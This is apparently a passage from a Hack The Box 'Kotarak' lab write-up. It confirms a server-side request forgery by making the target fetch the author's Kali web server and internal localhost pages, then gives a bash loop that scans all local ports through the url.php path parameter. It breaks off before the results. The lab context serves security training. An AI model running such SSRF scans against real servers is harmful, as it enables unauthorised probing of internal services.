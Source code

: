 To test its function, I opened a temporary web server on kali.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.55 - - [25/Feb/2025 00:37:31] "GET / HTTP/1.1" 200 -
```

Then, let's submit the kali webserver's address through the input.

![](attachments/kotarak_4.png)

Then, I can see that it's including the requested web page.

Even when I'm putting `http://127.0.0.1:8080` which is one of the webserver of the target, it shows the page.

![](attachments/kotarak_5.png)

Another observation is that non-http service also returns the service's banner.
Through this, I thought that I could perform a service enumeration.

Here's an automated script for that.

```bash
#!/bin/bash

for i in {0..65535}; do 
  res=$(curl -s http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${i});
  len=$(echo $res | wc -w); 
  if [ "$len" -gt "0" ]; then
    echo -n "${i}: "; 
    echo $res | tr -d "\r" | head -1 | cut -c-100; 
  fi;
done
```

It returns several existing internal pages as follows;
